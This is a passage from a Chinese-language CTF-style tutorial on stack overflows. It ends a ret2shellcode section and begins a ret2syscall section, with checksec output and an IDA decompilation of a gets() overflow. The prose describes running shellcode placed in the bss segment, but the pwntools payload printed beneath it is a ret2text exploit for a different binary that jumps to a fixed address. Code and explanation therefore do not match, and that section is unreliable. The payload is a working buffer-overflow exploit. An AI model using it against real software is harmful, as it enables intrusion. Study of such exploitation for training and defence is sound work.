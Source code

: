那么这次我们就控制程序执行shellcode，也就是读入shellcode，然后控制程序执行bss段处的shellcode。其中，相应的偏移计算类似于ret2text中的例子。

具体的payload如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c + 4) + p32(target))
sh.interactive()
```

## 题目

- sniperoj-pwn100-shellcode-x86-64

# ret2syscall

## 原理

ret2syscall需要我们控制程序执行系统调用，获取shell。

## 例子

这里我们以bamboofox中的ret2syscall为例，首先检测程序开启的保护

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为32位，开启了NX保护。接下来利用IDA来查看源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
